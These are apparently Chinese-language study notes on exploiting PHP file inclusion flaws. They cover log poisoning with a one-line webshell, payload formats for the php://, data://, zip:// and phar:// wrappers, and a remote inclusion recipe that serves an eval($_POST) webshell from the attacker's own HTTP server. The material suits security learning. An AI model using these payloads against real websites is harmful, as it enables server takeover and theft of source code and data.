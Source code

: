 ### 文件包含漏洞

> 只存在于 `php` 中 

---

#### 1、类型

##### (1）本地文件包含

包含存放在目标服务器本地的文件。

##### (2）远程文件包含

包含存放在攻击者服务器的文件。

#### 2、漏洞利用

##### (1）包含本地文件

###### **a 包含系统系统敏感文件**

###### **b 包含图片马**

###### **c 包含日志文件**

- 利用抓包工具提交一句话木马到日志文件
- 包含日志文件
- 利用蚁剑等工具添加好 `Cookie` 然后连接

###### **d 利用 `php` 伪协议进行攻击**

- `php://input` 

  > 前提条件：`php.ini` 文件中的 `allow_url_include` 设置为 `on` 

  格式：

  ```
  php://input
  post:php代码
  ```

- `data://` 

  > 前提条件：`php.ini` 文件中的 `allow_url_include` 设置为 `on` 

  格式：

  ```
  data://text/plain,[php代码]
  data://text/plain;base64,base64编码的php代码
  ```

- `php://filter` 

  过滤器  用来读取目标的源代码

  格式：

  ```
  php://filter/read=convert.base64-encode/resource=index.php
  ```

- `zip://` 

  `zip://` 、`bzip2://` 、`zlib://` 协议，都属于压缩流，可以访问压缩文件中 的子文件

  格式：

  ```
  zip://绝对（相对）路径/xx.zip%23被压缩的文件
  ```

  1、首先将一个 `PHP` 文件添加到 `zip` 压缩文件

  2、将 `zip` 压缩文件上传（如果是白名单检测可以将 `.zip` 后缀修改为合法的后缀）

  3、利用 `zip://` 协议包含该文件

- `phar://` 

  > 适用范围：`php` > 5.3.0。可以绕过网站固定包含文件名后缀的限制

  格式：

  ```
  phar://相对路径/xx.zip/被压缩文件
  ```

###### **e 包含上传文件**

如果目标服务器存在文件包含漏洞的同时又有文件上传的功能，此时可以进行组合利用。

- 首先上传图片马
- 包含图片马

##### (2）远程文件包含

> 前提：`php,ini` 的 `allow_url_fopen` 的值为 `On` （默认开启），并且 `allow_url_include` 的值 
>
> 也为 `On` （默认关闭）。

- 攻击者在自己服务器上新建一个文件，内容为：`<?php eval($_POST['a']);?>` 该文件需要能被 

  服务器访问到，这里使用 `python3` 启动一个 `http` 服务：

  ```
  python3 -m http.server --bind 0.0.0.0 1234
  ```

- 在目标网站提交：`?xx=http://ip地址:端口号/文件` 以包含文件
